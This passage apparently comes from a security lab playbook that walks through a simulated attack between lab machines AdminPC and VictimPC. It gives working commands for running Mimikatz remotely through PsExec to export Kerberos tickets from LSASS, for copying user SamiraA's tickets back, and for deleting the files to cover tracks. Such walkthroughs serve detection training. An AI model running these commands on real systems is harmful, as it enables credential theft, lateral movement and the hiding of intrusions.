 ### Mimikatz sekurlsa::tickets

With Mimikatz staged on AdminPC, we'll use PsExec to remotely execute it.

1. Traverse to where PsExec is located and execute the following command:

    ```dos
    PsExec.exe \\AdminPC -accepteula cmd /c (cd c:\temp ^& mimikatz.exe "privilege::debug" "sekurlsa::tickets /export" "exit")
    ```

    That command will execute and export the tickets found in the LSASS.exe process and place them in the current directory, on AdminPC.

1. We need to copy the tickets back over to VictimPC from AdminPC. Since we're only interested in SamiraA's tickets for this example, execute the following command:

    ```dos
    xcopy \\adminpc\c$\temp\*SamiraA* c:\temp\adminpc_tickets
    ```

    ![Export harvested credentials from AdminPC back to VictimPC](media/playbook-escalation-export_tickets2.png)

1. Let's clean up our tracks on AdminPC by deleting our files.

    ```dos
    rmdir \\adminpc\c$\temp /s /q
    ```

    > [!Note]
    > More sophisticated attackers will not touch disk when executing arbitrary code on a machine after gaining administrative privileges on it.

    On our **VictimPC**, we have these harvested tickets in our **c:\temp\adminpc_tickets** folder:

    ![C:\temp\tickets is our exported mimikatz output from AdminPC](media/playbook-escalation-export_tickets4.png)
